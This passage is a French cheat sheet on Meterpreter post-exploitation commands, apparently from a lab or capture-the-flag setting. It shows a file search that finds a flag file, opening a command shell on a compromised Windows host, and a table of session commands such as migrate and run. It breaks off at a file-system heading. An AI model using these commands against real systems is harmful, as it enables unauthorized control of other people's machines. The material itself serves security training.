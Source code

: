 
## __Search__

Permet de **trouver un fichier** dans le disque.

```shell
meterpreter > search -f flag2.txt
Found 1 result...
	c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```


## __Shell__

Pour avoir un **terminal classique** de commande.

```shell
meterpreter > shell 
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601] 
Copyright (c) 2009 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>
```


## __Commande utile__

### Commande Principale

| Commande     | Description                                                        |
| ------------ | ------------------------------------------------------------------ |
| `background` | Arrière-plan de la session en cours                                |
| `exit`       | Terminer la session Meterpreter                                    |
| `guid`       | Get the session GUID (Globally Unique Identifier)                  |
| `help`       | Displays the help menu                                             |
| `info`       | Displays information about a Post module                           |
| `irb`        | Opens an interactive Ruby shell on the current session             |
| `load`       | Loads one or more Meterpreter extensions                           |
| `migrate`    | Allows you to migrate Meterpreter to another process               |
| `run`        | Executes a Meterpreter script or Post module                       |
| `sessions`   | Quickly switch to another sessionQuickly switch to another session |

### Commande file system
